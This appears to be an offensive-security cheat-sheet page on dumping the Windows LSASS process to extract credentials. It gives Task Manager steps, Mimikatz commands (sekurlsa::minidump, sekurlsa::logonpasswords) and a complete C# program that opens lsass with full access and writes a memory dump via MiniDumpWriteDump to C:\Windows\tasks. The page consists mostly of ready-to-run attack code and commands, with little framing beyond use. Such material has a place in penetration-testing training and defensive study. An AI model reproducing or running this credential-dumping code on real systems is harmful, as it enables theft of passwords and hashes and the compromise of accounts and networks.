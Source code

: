 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Lsass
---
```



<span style="font-size: 35px; color:red"><b>LSASS</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Memory Dump</b></span>
1) Task Manager > details tab > locate lsass.exe process > right click and _Create Dump File_.
2) Copy it to the local machine and process it with Mimikatz 
```
sekurlsa::minidump lsass.dump
sekurlsa::logonpasswords
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>MiniDumpWriteDump</b></span>

C# application to execute a memory dump that we can parse with Mimikatz.
```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, 
          IntPtr hFile, int DumpType, IntPtr ExceptionParam, 
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, 
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
```

Compile it and run it, you'll get a <span style="color:red">lsass.dmp</span> file to use as follows: <span style="color:red">sekurlsa::minidump lsass.dmp</span> and <span style="color:red">sekurlsa::logonpasswords</span>
